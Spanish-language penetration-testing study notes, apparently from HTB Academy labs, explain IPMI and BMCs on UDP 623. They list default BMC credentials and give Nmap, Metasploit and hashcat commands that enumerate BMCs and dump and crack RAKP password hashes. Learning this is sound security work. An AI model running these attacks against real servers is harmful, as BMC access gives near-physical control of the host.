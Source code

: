 # 623 UDP (IPMI)

## IPMI

> **TIP** La **Interfaz de Gestión Inteligente de Plataformas (IPMI)** es un conjunto de especificaciones estandarizadas para sistemas de gestión de host basados en hardware. Se utiliza para la administración y monitorización de sistemas, actuando como un subsistema autónomo que opera independientemente de la BIOS, la CPU, el firmware y el sistema operativo del host.

> **NOTE** IPMI permite a los administradores gestionar y monitorizar sistemas incluso si están apagados o no responden, sin necesidad de acceso al sistema operativo. Se emplea típicamente:
>
> * Antes del arranque del sistema operativo para modificar configuraciones del BIOS.
> * Cuando el host está completamente apagado.
> * Para acceder al host tras una caída del sistema.
>
> Componentes requeridos para su funcionamiento:
>
> * **BMC (Baseboard Management Controller)**: microcontrolador esencial en IPMI.
> * **ICMB (Intelligent Chassis Management Bus)**: interfaz de comunicación entre chasis.
> * **IPMB (Intelligent Platform Management Bus)**: extensión del BMC.
> * **Memoria IPMI**: almacena eventos del sistema y otros datos.
> * **Interfaces de comunicación**: sistema local, serial, LAN, ICMB y PCI.

***

### Enumeración

> **QUOTE** IPMI se comunica mediante el puerto **UDP 623**. Los sistemas IPMI están representados por los **BMC**, usualmente sistemas ARM embebidos con Linux, conectados directamente a la placa base del host. Pueden estar integrados o añadirse mediante tarjetas PCI.

> **DANGER** Los BMC más comunes en pruebas de penetración son **HP iLO**, **Dell DRAC** y **Supermicro IPMI**. Obtener acceso a un BMC equivale prácticamente a acceso físico total al sistema: reinicio, apagado o reinstalación del SO. Estos BMC ofrecen consola web, protocolos como Telnet/SSH y acceso por UDP 623.

```bash
# Enumeración con Nmap
sudo nmap -sU --script ipmi-version -p 623 ilo.inlanfreight.local

# Escaneo de versiones con Metasploit
use auxiliary/scanner/ipmi/ipmi_version
set rhosts 10.129.42.195
show options
run
```

| Producto        | Usuario       | Contraseña                                                     |
| --------------- | ------------- | -------------------------------------------------------------- |
| Dell iDRAC      | root          | calvin                                                         |
| HP iLO          | Administrator | Cadena aleatoria de 8 caracteres (números y letras mayúsculas) |
| Supermicro IPMI | ADMIN         | ADMIN                                                          |

***

### Configuraciones peligrosas

> **INFO** Si las credenciales por defecto fallan, se puede explotar una vulnerabilidad del protocolo **RAKP** en IPMI 2.0. Durante la autenticación, el servidor envía un hash SHA1/MD5 con sal de la contraseña **antes de autenticar al cliente**.

```bash
# Ataque con hashcat
hashcat -m 7300 ipmi.txt -a 3 ?1?1?1?1?1?1?1?1 -1 ?d?u,

# Extracción de hashes con Metasploit
use auxiliary/scanner/ipmi/ipmi_dumphashes
set rhosts 10.129.42.195
show options
run
```

> **BUG** Si Metasploit no recupera la contraseña, puedes configurar un diccionario como **rockyou.txt** dentro del propio Metasploit para forzar el crédito.

***

### Redes sociales

* LinkedIn: [https://www.linkedin.com/in/tuch0/](https://www.linkedin.com/in/tuch0/)
* Instagram: [https://www.instagram.com/tuch0\_/](https://www.instagram.com/tuch0_/)
* YouTube: [https://www.youtube.com/@tuch0](https://www.youtube.com/@tuch0)\_
* GitHub: [https://github.com/Tuch0](https://github.com/Tuch0)
* Web personal: [https://tuch0.com/](https://tuch0.com/)

> 📄 Apuntes personales de HTB Academy. Para uso educativo.
